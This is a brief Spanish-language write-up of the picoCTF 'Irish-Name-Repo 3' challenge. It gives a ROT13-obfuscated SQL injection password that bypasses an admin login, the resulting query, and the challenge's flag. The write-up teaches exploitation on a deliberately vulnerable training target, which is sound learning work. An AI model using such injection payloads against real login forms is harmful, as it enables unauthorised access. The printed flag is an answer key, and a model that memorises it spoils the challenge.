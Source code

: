 # Irish-Name-Repo 3

---
## Objectivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

---
## Solución
``` bash
password: ' be '1'='1
SQL query: SELECT * FROM admin where password = '' or '1'='1'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}
```

---
## Notas adicionales
Al activar el modo deb y enviar la contraseña, se muestra que esta rota 13 veces, al inyectar el sql rotado se obtiene la contraseña.

---
## Referencias
https://picoctf2019.haydenhousen.com/web-exploitation/irish-name-repo-3
